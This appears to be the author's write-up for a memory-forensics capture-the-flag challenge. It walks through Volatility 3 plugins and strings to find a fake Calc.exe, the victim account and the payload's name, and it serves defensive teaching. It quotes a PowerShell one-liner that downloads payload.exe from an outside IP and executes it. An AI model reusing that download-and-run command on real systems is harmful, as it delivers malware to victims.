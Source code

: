 # writer writeup 
1. For the malicious process PID you can figure it out after analyzing the memory a bit by using windows.pslist and windows.pstree with volatility3, volatility 2 also works. You would see that the Calc.exe process PPID is cmd.exe so its the first suspicious point, also the path of calc.exe is in C:\Windows\Temp\Calc.exe which is very suspicious, and if you dump the file and throw it in virusTotal you would get 40+ antivirus engines saying its malicious. So Calc.exe is the malicious process with the PID 2576.
2. For the victim's user account you can find it using the windows.sessions plugin in volatility 3.
3. For the original name of the malicious process you can find it by multiple steps, since there are powershell commands and cmd commands maybe try and checkout if there any connections coming from outside. Use the plugin windows.netstat in volaitlity3 you would see powershell.exe with a suspicious ip 3.79.237.40. Now we try to find activity related to the IP, there are many ways to do so, but we can go with most basic way our old friend strings. the following command would show a lot of activity related to the IP:
```strings ElPablo.vmem| grep -iE "3.79.237.40"```
Its not a huge output and you would find this line in one of them:
```"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -c iwr http://3.79.237.40/payload.exe -OutFile C:\\Windows\Temp\\Calc.exe; C:\\Windows\\System32\\cmd.exe /c C:\\Windows\\Temp\Calc.exe```
a summary of the line above:
The command uses PowerShell to download a malicious file (payload.exe) from an external URL and saves it as Calc.exe in the Temp directory. Then, it uses cmd.exe to execute the downloaded file.

Key Steps:
- PowerShell fetches the file from http://3.79.237.40/payload.exe using Invoke-WebRequest.
- Saves it to C:\Windows\Temp\Calc.exe.
- cmd.exe executes the saved file.

So for the original name it's payload.exe
